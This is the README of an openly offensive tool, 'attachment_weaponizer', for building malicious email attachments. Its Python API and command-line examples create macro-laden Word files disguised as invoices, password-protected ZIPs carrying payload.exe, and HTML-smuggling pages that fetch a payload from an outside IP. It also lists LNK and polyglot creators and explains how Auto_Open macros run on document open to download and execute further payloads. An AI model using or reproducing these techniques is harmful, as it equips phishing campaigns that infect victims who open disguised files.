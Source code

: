 ### Python API

```python
from attachment_weaponizer import AttachmentWeaponizer

# Initialize
weaponizer = AttachmentWeaponizer(output_dir='attachments')

# Create attachments
doc = weaponizer.create_macro_doc('payload.vba', 'invoice.docm')
zip_file = weaponizer.create_password_zip('payload.exe', password='2024')
html = weaponizer.create_html_smuggling('http://10.10.14.5/payload.exe')

# Get delivery instructions
print(doc.get_delivery_instructions())

# List all created
weaponizer.print_summary()
```

## File Structure

```
attachment_weaponizer/
├── core/                  # Core logic
│   ├── weaponizer.py      # Main orchestrator
│   └── attachment.py      # Data model
├── creators/              # Attachment creators
│   ├── office_creator.py      # Office documents
│   ├── archive_creator.py     # ZIP, ISO
│   ├── html_creator.py        # HTML smuggling
│   ├── lnk_creator.py         # Windows shortcuts
│   └── polyglot_creator.py    # Polyglot files
├── utils/                 # Utilities
│   ├── encoders.py        # Encoding functions
│   └── helpers.py         # Helper functions
└── config/                # Configuration
    └── settings.py        # All settings
```

## Attachment Types

### 1. Macro Documents (Word/Excel)

Create Office documents with embedded VBA macros:

```bash
python -m attachment_weaponizer macro-doc payload.vba --output invoice.docm
```

**How it works:**
- VBA macros execute on document open (with user permission)
- Auto_Open() or Document_Open() functions trigger execution
- Can download and execute additional payloads
- Requires manual macro insertion via VBA editor
